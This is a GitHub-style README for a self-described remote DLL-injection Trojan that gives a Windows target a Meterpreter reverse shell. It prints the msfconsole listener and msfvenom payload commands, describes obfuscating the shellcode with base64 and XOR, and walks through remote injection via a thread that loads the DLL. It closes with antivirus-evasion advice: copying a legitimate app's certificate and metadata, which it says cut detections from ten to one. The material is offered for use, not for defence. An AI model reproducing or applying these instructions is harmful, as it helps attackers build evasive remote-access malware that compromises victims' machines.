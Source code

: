 # Remote Dll injector Trojan
Trojan using dll injection of a custom library that spawns a shell on a target machine, undetected by Windows defender and Bitdefener

# 💻 Code

This malware injects a malicious library into a target process or directly creates a process and uploads the library into it, the dll contains a simple encoded base64 data that spawns a reverse shell.

### 0) Listener and payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more, secondly XOR encryption is applied using a single-byte key, and finally we convert it into its hexadecimal string representation.

### 1) DLL
The malicious library contains 4 different call cases, process attach/detach, and thread create/delete, the best one is in my opinion the first one. When the library is attached to the process, it runs arbitrary code, in the sample there is a simple windows message box, in the ```dll-shell``` the code decodes the previously obfuscated data and uploads the shellcode containing the reverse shell to memory. You can create a dll on Visual Studio by making a new project and selecting the dll template, also rememeber to build both the dll and the injector in release mode and in the same architecture.

### 2) Local Injection

The local injection takes the dynamic library which is already located into the disk (basically useless, just a sample), creates a process and injects the library into it. Here is a detailed explanation: 

- First we locate the dll and we load it into the same process that runs it; 
- Then we create a thread and execute whatever we want, for example calling a function from inside the dll or running multiple tasks;

Because our dll is executed by the main function of our process, the thread isn't mandatory, you can use it for example to call a function from the dll if it needs to run in the background or loop continuously. 

### 2.1) Remote Injection

The remote injection dumps the dynamic library into disk (might get detected tho as anything that gets written into disk is automathically scanned by the antivirus), looks for a specific process and injects the library into it. Here is a detailed explanation: 

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID, allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the base address of kernel32 dll to get the pointer of the function which will load the malicious library;
- Finally we create a thread that executes the function that loads the malicious dll;
- The Dll decodes the data and uploads it to memory, creating the shell;

Extracting the dll and uploading to disk is risky tho, in the future i will find some ways to upload it directly to memory without being scanned.

# 🛡 Obfuscation and AV Detection 

<img align="right" src="media/av1.png" width="340" />

Both codes are undetected by Windows defender. The remote injection exe on virustotal got 10 detections, but using a simple certificate and metadata manager like Process Hacker (free an open source) i uploaded the data of a common app (in my case it was github desktop setup) and the AVs detections went from 10 to 1 in an instant, and for the first time Bitdefender didn't flag it as suspicious 😀!!! The file went from a few kilobytes to like 10mb tho so i think i'll have to work on that, maybe by embedding only the essential metadata and certificates.

<img align="left" src="media/av4.png" width="540" />
